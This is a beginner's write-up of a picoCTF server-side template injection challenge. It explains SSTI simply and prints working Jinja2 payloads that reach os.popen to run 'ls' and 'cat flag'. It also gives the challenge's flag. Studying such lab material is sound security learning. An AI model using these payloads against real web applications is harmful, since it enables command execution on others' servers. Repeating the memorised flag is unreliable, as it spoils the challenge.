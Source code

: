# [SST11 - Server Side Template Injection (Web Exploitation)](https://play.picoctf.org/practice/challenge/492?page=1)

**Challenge Description**  
"I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:52471/)! (The website might not work as the URL changes whenever the instance is opened)

**Category**: Web Exploitation  
**Difficulty**: Easy  

## Approach

This is my first CTF and I was clueless. I got confused about what to do with the URL. I searched up SSTI and got to know what it is. I'll explain SSTI in the simplest way possible without diving too deep into technical jargon and what I generally understood in these few hours.Imagine a website that lets you type your name, and then shows a welcome message like: Hello [your-name-here]!.Normally, if you type "Alice", it shows:Hello Alice! But if the website isn't built carefully, then there's a lot of problems that can occur. I got to know about the classic payload {{7*7}} from internet and thus used it. Also, I got to know that payloads are readymade found on the internet, depending upon the type of web template engine used. We just need to know how to tweak/modify it to use for our application in this CTF challenge.

1. **Identify SSTI Vulnerability**  

   Tested with `{{7*7}}` which returned `49`, confirming template injection.

3. **Command Execution**

   I found then a payload from the [website](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and used Jinja2 template engine exploit:
   ```jinja2
   {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
This showed all the files and I found the "flag" file and thus again used "cat flag" command with little tweaking in the above command.

   ```jinja2
   {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
which returned me the flag - picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
